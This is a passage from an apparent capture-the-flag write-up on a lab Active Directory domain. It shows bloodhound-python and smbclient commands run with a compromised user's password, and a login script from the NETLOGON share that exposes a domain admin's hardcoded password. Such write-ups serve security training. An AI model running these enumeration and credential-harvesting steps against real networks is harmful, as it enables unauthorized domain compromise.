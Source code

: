 ```bash
bloodhound-python -u enterprise-core-vn -p "ry=ibfkfv,s6h," -ns 10.10.47.93 -d vulnnet-rst.local -c All
```

* next we uploaded all json file in bloodhound application and marked `t-skid` and `enterprise-core-vn` as owned.
* found nothing mush here, nor did any query result in for our path to domain admins.
* still we got to know that we have 2 accounts in domain admins - `a-whitehat` and `Administrator`.

![](2025-05-31-vulnnet-roasted-10.png)

* thus as next we have nothing on target, we can go back to basics.
* hence we can again enumerate for our access on SMB shares with this new user privileges.
* and we have 2 new share to enumerate.

```bash
┌──(kali㉿kali)-[~/Desktop/vulnnetroasted]
└─$ smbclient \\\\10.10.142.212\\NETLOGON --user=vulnnet-rst.local/enterprise-core-vn%ry=ibfkfv,s6h,
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Mar 16 16:15:49 2021
  ..                                  D        0  Tue Mar 16 16:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 16:18:14 2021

		8540159 blocks of size 4096. 4188235 blocks available
smb: \> get ResetPassword.vbs 
getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (2.0 KiloBytes/sec) (average 2.0 KiloBytes/sec)
smb: \> exit
```

* both `SYSVOL` and `NETLOGON` share contained a `ResetPassword.vbs` script in diff. directories.
* its a big `.vbs` script which looks like to be doing a password reset as its name suggest.
* also inside it we found a user and password.

```bash
┌──(kali㉿kali)-[~/Desktop/vulnnetroasted]
└─$ cat ResetPassword.vbs 
Option Explicit

Dim objRootDSE, strDNSDomain, objTrans, strNetBIOSDomain
Dim strUserDN, objUser, strPassword, strUserNTName

' Constants for the NameTranslate object.
Const ADS_NAME_INITTYPE_GC = 3
Const ADS_NAME_TYPE_NT4 = 3
Const ADS_NAME_TYPE_1779 = 1

If (Wscript.Arguments.Count <> 0) Then
    Wscript.Echo "Syntax Error. Correct syntax is:"
    Wscript.Echo "cscript ResetPassword.vbs"
    Wscript.Quit
End If

strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"

' Determine DNS domain name from RootDSE object.
Set objRootDSE = GetObject("LDAP://RootDSE")
strDNSDomain = objRootDSE.Get("defaultNamingContext")
---snip---
```
